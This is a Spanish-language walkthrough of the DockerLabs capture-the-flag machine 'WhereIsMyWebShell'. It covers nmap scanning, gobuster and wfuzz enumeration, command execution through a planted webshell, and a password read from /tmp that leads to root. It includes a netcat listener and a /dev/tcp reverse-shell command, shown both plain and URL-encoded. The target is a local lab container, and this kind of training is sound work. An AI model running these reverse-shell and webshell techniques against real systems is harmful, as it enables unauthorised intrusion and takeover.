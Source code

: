 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "WhereIsMyWebShell".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh whereismywebshell.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene unicamente un puerto abierto, el puerto 80 (HTTP):
```
Discovered open port 80/tcp on 172.17.0.2
```
Siendo asi, pasamos a introducir la direccion IP en el navegador para ver que obtenemos y vemos una pagina de una academia de ingles, donde vemos que al final hay un pequeño mensaje:
```
¡Contáctanos hoy mismo para más información sobre nuestros programas de enseñanza de inglés!. Guardo un secretito en /tmp ;)
```
De momento no tenemos mas informacion, por lo que vamos a hacer un poco de FUZZING WEB:
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
y obtenemos la siguiente informacion:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 622929 / 622932 (100.00%)
```
Probamos con la pagina "/warning.html" y vemos el siguiente mensaje por pantalla:
```
Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...
```
Tambien tenemos el "/shell.php" pero al colocarlo en el navegador, solo podemos ver una pagina en blanco.
Es momento de usar "wfuzz" para intentar buscar la palabra que deberiamos colocar detras de "/shell.php" y poder ejecutar comandos, por lo que escribimos:
```
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id" --hc 404 --hl 0 -t 50
```
Y tras un ratito nos encuentra la palabra "parameter" tal y como se puede observar abajo:
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                  =====================================================================

000115401:   200        2 L      4 W        66 Ch       "parameter"
```
Probamos a poner "http://172.17.0.2/shell.php?parameter=id" y recibimos la siguiente respuesta por la web:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Con esto podemos ver que ya tenemos la ejecucion remota de comandos.

Bien, vamos a intentar hacer una reverse shell, por lo que con NETCAT nos pondremos a la escucha por el puerto 443, por ejemplo:
```
nc -nlvp 443
```
pero antes de nada, vamos a intentar pasar a formato web (urlcodear) el siguiente comando obtenido de la pagina "https://www.revshells.com/" para conseguir nuestra reverse:
```
bash -c "sh -i >& /dev/tcp/172.17.0.1/443 0>&1"
```
Para hacer esto, la propia pagina nos permite pasar dicho comando a formato "URL Encode", abajo a la derecha, y donde nos quedaria:
```
bash -c "sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F443%200%3E%261"
```
Con esto hemos obtenido ya la reverse shell y con ello, el acceso a la maquina victima. De todas formas, ahora es momento de hacer un tratamiento de la tty:
```
1) Escribimos:
	script /dev/null -c bash
2) Ahora pulsamos (CTRL + Z) y nos devuele a la terminal de la maquina atacante
3) Escribimos:
	stty raw -echo; fg
4) Una vez escrito lo anterior y vuelto a la maquina victima, escribimos:
	reset xterm
5) Finalmente, escribimos estos dos comandos:                    
    export TERM=xterm
    export SHELL=bash
6) Nos quedaria la terminal de la siguiente forma:
	www-data@c306b3822817:/var/www/html$ 
```
Ahora, lo suyo seria ir a la carpeta "/temp" que nos decia la pagina principal de la academia en el mensajito de abajo del todo, para ver cual era ese "secretito".
```
www-data@c306b3822817:/var/www/html$ cd /tmp
```
Y al lanzar un "ls -la", vemos:
```
www-data@c306b3822817:/tmp$ ls -la

total 12
drwxrwxrwt 1 root root 4096 Jul 16 21:27 .
drwxr-xr-x 1 root root 4096 Jul 16 21:27 ..
-rw-r--r-- 1 root root   21 Apr 12 16:07 .secret.txt

www-data@c306b3822817:/tmp$ 
```
Es momento de hacer un "cat" a ver lo que hay en ".secret.txt":
```
www-data@c306b3822817:/tmp$ cat .secret.txt 
contraseñaderoot123

www-data@c306b3822817:/tmp$ 
```
Ya teniendo la contraseña, vemos que hemos conseguido acceso "root" al cambiar a dicho usuario tal y como se observa aqui abajo:
```
www-data@c306b3822817:/tmp$ su root
Password:       <==== Metemos la contraseña que habia en ".secret.txt"

root@c306b3822817:/tmp# whoami
root            <==== Vemos que somos finalmente "root"

root@c306b3822817:/tmp# 
```
Y con esto, la maquina estaria terminada :) !!
